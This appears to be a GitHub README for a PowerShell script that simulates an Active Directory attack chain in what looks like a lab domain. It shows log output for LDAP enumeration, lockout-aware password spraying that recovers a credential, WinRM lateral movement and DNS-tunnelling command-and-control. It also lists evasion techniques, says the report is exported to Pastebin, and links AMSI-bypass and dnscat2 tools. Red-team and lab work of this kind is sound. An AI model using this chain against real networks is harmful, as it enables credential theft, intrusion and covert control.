

### Description
This script simulates a multi-stage attack chain in an Active Directory environment. It performs user enumeration through LDAP, conducts password spraying while avoiding account lockouts, establishes lateral movement via WinRM, and sets up a DNS-based command-and-control channel.
All actions are carefully logged and the report is securely exported to Pastebin.

### Attack Chain Diagram


### Example Output
```
[2025-05-19 16:37:25] [INFO] Script started.
[2025-05-19 16:37:25] [INFO] Stage 1: Generating user list.
[2025-05-19 16:37:25] [INFO] Lockout threshold retrieved: 5.
[2025-05-19 16:37:25] [INFO] Skipping Administrator because it is an excluded user. Skipping...
[2025-05-19 16:37:25] [INFO] Skipping Guest because it is an excluded user. Skipping...
[2025-05-19 16:37:25] [INFO] User vagrant has 5 bad password attempts. Skipping...
[2025-05-19 16:37:25] [INFO] Skipping krbtgt because it is an excluded user. Skipping...
[2025-05-19 16:37:25] [INFO] User SEVENKINGDOMS$ has 5 bad password attempts. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find arya.stark bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Added user eddard.stark to user list.
[2025-05-19 16:37:25] [INFO] User catelyn.stark has 4 bad password attempts. Skipping...
[2025-05-19 16:37:25] [INFO] Added user robb.stark to user list.
[2025-05-19 16:37:25] [INFO] Couldnt find sansa.stark bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find brandon.stark bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find rickon.stark bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find hodor bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find jon.snow bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find samwell.tarly bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find jeor.mormont bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Couldnt find sql_svc bad password count. Skipping...
[2025-05-19 16:37:25] [INFO] Stage 2: Performing password spray.
[2025-05-19 16:37:25] [SUCCESS] SUCCESS! User:eddard.stark Password:FightP3aceAndHonor!
[2025-05-19 16:37:25] [INFO] Invalid credentials for robb.stark
[2025-05-19 16:37:25] [INFO] Stage 3: Creating PS-Remoting sessions on computers with open WinRM port.
[2025-05-19 16:37:29] [INFO] WinRM port open on computer: WINTERFELL.
[2025-05-19 16:37:29] [INFO] WinRM port open on computer: CASTELBLACK.
[2025-05-19 16:37:29] [SUCCESS] Computers WINTERFELL, CASTELBLACK are open to PowerShell remoting.
[2025-05-19 16:38:09] [SUCCESS] Successfully connected to CASTELBLACK with user eddard.stark.
[2025-05-19 16:38:09] [INFO] Stage 4: Executing DNS tunneling persistence.
[2025-05-19 16:38:09] [SUCCESS] Started DNS tunneling job with ID: 9 and Status: Running on session CASTELBLACK
[2025-05-19 16:38:09] [INFO] Script finished.
```

### Evasion Techniques Used
**Avoid Lockouts:** Checks bad password count before login attempts to prevent account lockouts.
**Living off the Land:** Leverages built-in Windows tools and PowerShell cmdlets rather than external tools.
**Stealth Communication:** Utilizes DNS tunneling for command and control, blending with normal network traffic.
**Fileless Operation:** Uses PowerShell's in-memory execution capabilities to avoid writing files to disk.

## Resources
- https://github.com/M0M3NTUM44/AMSIReflectionCrypt/
- https://github.com/lukebaggett/dnscat2-powershell